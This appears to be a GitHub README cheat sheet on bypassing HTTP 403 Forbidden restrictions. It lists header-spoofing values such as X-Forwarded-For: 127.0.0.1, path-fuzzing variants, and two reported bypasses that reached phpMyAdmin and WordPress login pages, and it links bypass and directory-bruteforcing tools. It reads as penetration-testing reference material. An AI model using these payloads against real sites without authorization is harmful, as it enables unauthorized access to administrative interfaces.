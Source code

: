 # Bypass 403 - Forbidden :no_entry:

- **Introduction**

Depending on the configuration made by the infrastructure analyst, there are some ways to get past the 403-forbidden error generally by configuring when you should not be allowed to access certain resources of that directory or file.

I created this quick document to demonstrate some techniques for this, including, I already used it and managed to pass the **403 error** and access database administrative login pages.

<p align="center">
  <img width="600" height="300" src="./img/1">
</p>


## Some techniques :page_facing_up:


 #### <span style="color:red">Attention</span> :bangbang:

Before using the techniques below, it is worth changing the HTTP methods for each attempt, such as GET, POST, PATCH, OPTIONS, TRACE...

1. Method ***HTTP Headers Fuzzing***

In some cases, access to pages and private files can be done by changing the ***Header*** of the request and including an internal address, here are some examples;

- X-ProxyUser-Ip: 127.0.0.1
- Client-IP: 127.0.0.1
- Host: localhost
- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Real-IP: 127.0.0.1

2. Method ***Path Fuzzing***

We can try to make some changes to the url, using special characters or including HTML encoding, exemples;

- test.com/admin/*
- test.com/*admin/
- test.com/%2fadmin/
- test.com%2fadmin%2f
- test.com/./admin/
- test.com//admin/./
- test.com///admin///
- test.com//admin//
- test.com/ADMIN/
- test.com/;/admin/
- test.com//;//admin/

## Real example 1 of Bypass

The example below is a bypass used in the phpmyadmin console, configured to be accessed only with specific IP x.x.x.x the context /phpmyadmin/

I made some attempts changing the context, example;

- /phpmyadmin/*
- /./phpmyadmin/
- //phpmyadmin//
- /*/phpmyadmin/

<p align="center">
  <img width="600" height="250" src="./img/403.JPG">
</p>

However, without success :(

After a few attempts to pass the 403, I tried changing the context to;

- **<span style="color:red;">///phpmyadmin///</span>**

<p align="center">
  <img width="600" height="250" src="./img/bypass.JPG">
</p>

In this case using 3 slashes (///), we managed to pass the 403 error and access the phpmyadmin login page. :ok_hand:

## Real example 2 of Bypass

In this example, we access the wordpress login panel using, in this case, 2 slashes (//).

In this url, we couldn't use the same context with 3 slashes, however, we managed using another change in the context.

<p align="center">
  <img width="600" height="250" src="./img/403-wp.JPG">
</p>

Using the context below
- **<span style="color:red;">//wp-admin//</span>**

<p align="center">
  <img width="600" height="400" src="./img/bypass-wp.JPG">
</p>
<br>

## Tool Tip :white_check_mark:

Some developers who created some tools to facilitate the identification of possible pages that we managed to pass the 403 error. The github project below (***iamj0ker***) was tested and we were able to validate some prohibited entries.

[github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)

For those who use **Burpsuite Professional**, there is a plugin in the store to validate contexts with denied permissions, called **403 Bypasser**.

[403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)

To find possible directories with 403 permissions, we can perform a bruteforce of directories and files using **Dirsearch**.

[Dirsearch](https://github.com/maurosoria/dirsearch)


<a href="https://asciinema.org/a/380112" target="_blank"><img src="https://asciinema.org/a/380112.svg" /></a>
